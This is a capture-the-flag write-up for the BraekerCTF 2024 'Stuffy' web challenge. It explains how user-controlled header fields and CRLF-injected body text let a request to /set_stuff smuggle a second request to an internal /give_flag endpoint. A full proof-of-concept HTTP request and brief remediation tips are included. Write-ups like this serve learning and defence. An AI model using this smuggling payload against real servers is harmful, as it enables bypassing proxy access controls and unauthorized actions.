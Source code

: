 # description
This challenge is a web challenge written by spipm and part of the Braekerctf ctf. This challenge is a request smuggling. Good reading.

link: https://github.com/spipm/BraekerCTF_2024_public/tree/main

# recon
Let's start by reading the provided code. We can immediately see an SQL injection vulnerability.

![](../images/stuffy1.png)

However, we don't have control over the username. It's chosen from the provided `usernames.txt` file, which is a list of random usernames + 4 random characters.

![](../images/stuffy2.png)

So, SQLi isn't the right path.

Among all the routes, we can notice the endpoint `/give_flag`.

![](../images/stuffy3.png)

This function updates the value of "stuff" with the flag value for a user from the moment the request comes from the server itself.
We can try adding the Headers manually, but it won't work because it's the nginx proxy that modifies the headers.
So, we need to find a function that makes a request and redirect it to `/give_flag`.
Fortunately, `/set_stuff` makes a request to `/update_profile_internal`.

![](../images/stuffy4.png)

Set_stuff first retrieves our username from the cookies and checks that this user exists.
Then it retrieves the stuff variable from the request and verifies that its length is less than 200.
The `special_type` and `special_val` variables are similarly retrieved and cleaned with the `security_filter` function.
`special_type` and `special_val` become Headers, and `stuff` becomes part of the body.

So, we have control over three variables: stuff, special_val, and special_type.
The most likely path is a request smuggling. Let's try.

# POC
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Here, `special_type` and `special_val` form a header that will inform the first request (the end of aaaaaab) = Content-length: 80.
How do we find this number?

 ![](../images/stuffy5.png)
 
We just need to find the size of this string.

![](../images/stuffy6.png)

Then we create a second request. After refreshing the page, we'll have the flag in our stuff.

![](../images/stuffy7.png)


# remediation
- Ensure that the servers don't accept or process with multiple Content-length or Tranfer-Encoding.
- Use HTTP/2 because it is designed to prevent smuggling attack by clearing delineating the boundaries of HTTP messages.


# That's it!




